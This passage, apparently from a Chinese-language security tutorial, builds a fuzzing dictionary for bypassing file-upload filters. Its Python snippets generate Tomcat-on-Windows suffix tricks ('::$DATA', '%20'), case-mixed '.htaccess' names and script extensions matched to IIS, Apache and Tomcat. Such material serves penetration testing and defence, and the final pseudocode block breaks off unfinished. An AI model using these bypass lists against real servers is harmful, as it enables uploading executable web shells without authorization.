 根据以上规则生成字典对应的代码为：

```
win_tomcat = ['%20','::$DATA','/']
def tomcat_suffix_creater(suffix):
    res = []
    for l in suffix:
        for t in win_tomcat:
            str = '%s%s' % (l,t)
            res.append(str)
    return res
```

如果确定中间件为apache,可以加入.htaccess。同时如果操作系统还为windows，我们可以大小写混合。

```
if (middleware == 'apache' or middleware == 'all') and (os == 'win' or os == 'all'):
    htaccess_suffix = uperTest(".htaccess")
elif (middleware == 'apache' or middleware == 'all') and os == 'linux':
    htaccess_suffix = ['.htaccess']
else:
    htaccess_suffix = []
```

### [](#4-5-语言，中间件与操作系统的关系 "4.5 语言，中间件与操作系统的关系")4.5 语言，中间件与操作系统的关系

以上我们根据每个中间件的漏洞，编写了对应的fuzz字典生成函数。在最终生成字典时，我们还要考虑中间件可以运行那些语言，以及它们与平台的关系。

![](2.png)

根据上表，我们明白：

iis下可以运行asp/aspx,php,jsp脚本，故这3种脚本语言可解析后缀均应该传入iis\_suffix\_builder\(\)进行处理；

apache下可以运行asp/aspx,php。故这2两种脚本语言可解析后缀均应该传入apache\_suffix\_builder\(\)进行处理；

tomcat下可以运行php，jsp，故这两个脚本语言可解析后缀均应该传入tomcat\_suffix\_builder\(\)进行处理。

注意：根据对tomcat上传的绕过分析，发现之后在windows平台下才能成功。故之后在Windows平台下才会调用`tomcat_suffix_builder()`对可解析后缀进行处理。

故伪代码可以编写如下：

```
if middleware == 'iis':
    case_asp_php_jsp_parse_suffix = case_asp_parse_suffix + case_php_parse_suffix + case_jsp_parse_suffix
    middleware_parse_suffix = iis_suffix_creater(case_asp_php_jsp_parse_suffix)
elif middleware == 'apache':
    case_asp_php_html_parse_suffix = case_asp_parse_suffix + case_php_parse_suffix + case_html_parse_suffix
    middleware_parse_suffix = apache_suffix_creater(case_asp_php_html_parse_suffix)
elif middleware == 'tomcat' and os == 'linux':
    middleware_parse_suffix = case_php_parse_suffix + case_jsp_parse_suffix
elif middleware == 'tomcat' and (os == 'win' or os == 'all'):
    case_php_jsp_parse_suffix = case_php_parse_suffix + case_jsp_parse_suffix
    middleware_parse_suffix = tomcat_suffix_creater(case_php_jsp_parse_suffix)
else:
    case_asp_php_parse_suffix = case_asp_parse_suffix + case_php_parse_suffix
    iis_parse_suffix = iis_suffix_creater(case_asp_php_parse_suffix)
    case_asp_php_html_parse_suffix = case_asp_parse_suffix + case_php_parse_suffix + case_html_parse_suffix
```